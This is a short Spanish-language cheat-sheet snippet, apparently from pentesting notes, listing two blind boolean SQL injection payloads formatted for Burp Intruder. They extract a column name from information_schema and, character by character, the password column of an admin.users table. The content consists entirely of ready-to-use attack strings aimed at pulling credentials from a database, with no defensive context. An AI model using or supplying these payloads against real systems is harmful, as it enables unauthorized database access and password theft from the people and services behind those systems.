 ## 📎 Ejemplos generales de payloads

- Extraer la **tercera letra** de la **primera columna** de la tabla `users` en la base `admin`:

    ' AND ASCII(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema='admin' AND table_name='users' LIMIT 0,1),3,1))=§X§ -- -

- Extraer la **primera letra** de la **primera fila** de la columna `password` de la tabla `users` en la base `admin`:

    ' AND ASCII(SUBSTRING((SELECT password FROM admin.users LIMIT 0,1),1,1))=§X§ -- -

---

